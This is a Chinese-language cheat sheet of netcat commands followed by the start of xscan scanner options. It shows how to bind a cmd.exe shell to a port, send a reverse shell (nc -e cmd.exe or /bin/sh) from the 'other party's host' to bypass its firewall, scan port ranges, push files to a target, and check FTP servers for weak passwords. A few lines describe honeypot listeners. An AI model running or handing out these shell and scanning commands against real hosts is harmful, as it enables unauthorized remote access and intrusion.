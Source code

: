 　　nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口

　　nc -l -p 80 开启本机的TCP 80端口并监听

　　nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口

　　nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口

　　nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口

　　高级用法：

　　nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止

　　nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt

　　nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用

　　type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用

　　本机上用：nc -l -p 本机端口

　　在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K

　　nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙

　　本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称

　　在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机

　　备 注：

　　| 管道命令

　　< 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令

　　@ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt >> d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中

　　>与>>的区别 ">"指：覆盖；">>"指：保存到(添加到）。

　　如：@dir c:winnt >> d:log.txt和@dir c:winnt > d:log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。



　　**扫描工具：xscan.exe**

　　基本格式

　　xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息

　　xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息

　　检测项目

　　-active 检测主机是否存活

　　-os 检测远程操作系统类型（通过NETBIOS和SNMP协议）

　　-port 检测常用服务的端口状态

　　-ftp 检测FTP弱口令

　　-pub 检测FTP服务匿名用户写权限
